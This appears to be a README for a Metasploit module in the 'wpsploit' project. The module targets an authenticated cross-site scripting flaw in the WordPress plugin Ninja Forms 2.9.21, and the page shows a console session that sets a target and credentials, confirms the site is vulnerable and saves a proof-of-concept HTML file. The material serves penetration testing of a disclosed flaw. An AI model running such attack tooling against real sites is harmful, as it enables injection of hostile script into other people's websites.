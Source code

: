 #### Add WordPress Plugin Ninja Forms XSS Vulnerability.

  Application: WordPress Plugin 'Ninja Forms' 2.9.21
  Homepage: https://wordpress.org/plugins/ninja-forms
  Source Code: https://downloads.wordpress.org/plugin/ninja-forms.2.9.21.zip
  References: https://wpvulndb.com/vulnerabilities/8128
  Active Install: +200.000

#### Vulnerable packages*
        
  2.9.21

#### Module

  [wp_ninja_forms_xss_scanner.rb](https://github.com/espreto/wpsploit/blob/master/modules/auxiliary/scanner/http/wordpress/wp_ninja_forms_xss_scanner.rb)
  
#### Usage:

##### Linux (Ubuntu 14.04.2 LTS):
```
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf>  use auxiliary/scanner/http/wp_ninja_forms_xss_scanner 
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  show options 

Module options (auxiliary/scanner/http/wp_ninja_forms_xss_scanner):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads
   VHOST                       no        HTTP server virtual host
   WP_PASS                     yes       A valid password
   WP_USER                     yes       A valid username

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  info

       Name: WordPress Ninja Forms XSS Scanner
     Module: auxiliary/scanner/http/wp_ninja_forms_xss_scanner
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2015-07-14

Provided by:
  Morten Nørtoft, Kenneth Jepsen, Mikkel Vej
  Roberto Soares Espreto <robertoespreto@gmail.com>

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target address range or CIDR identifier
  RPORT      80               yes       The target port
  TARGETURI  /                yes       The base path to the wordpress application
  THREADS    1                yes       The number of concurrent threads
  VHOST                       no        HTTP server virtual host
  WP_PASS                     yes       A valid password
  WP_USER                     yes       A valid username

Description:
  This module attempts to exploit an Authenticated Cross-Site 
  Scripting in Ninja Forms Plugin for Wordpress, version 2.9.21 and 
  likely prior in order if the instance is vulnerable.

References:
  https://wpvulndb.com/vulnerabilities/8128
  https://packetstormsecurity.com/files/132913/

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  set RHOSTS 10.10.10.20
RHOSTS => 10.10.10.20
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  set WP_USER espreto
WP_USER => espreto
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  set WP_PASS R@x0rP@55
WP_PASS => R@x0rP@55
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  check
[*] 10.10.10.20:80 - The target appears to be vulnerable.
[*] Checked 1 of 1 hosts (100% complete)
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  run

[+] 10.10.10.20:80 - Vulnerable to Cross-Site Scripting the Ninja Forms 2.9.21 plugin for Wordpress
[+] Save in: /home/espreto/.msf4/local/script.html
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  firefox /home/espreto/.msf4/local/script.html
```
This will open the browser:

![XSS](../images/wp_ninja_forms_xss_scanner.png)
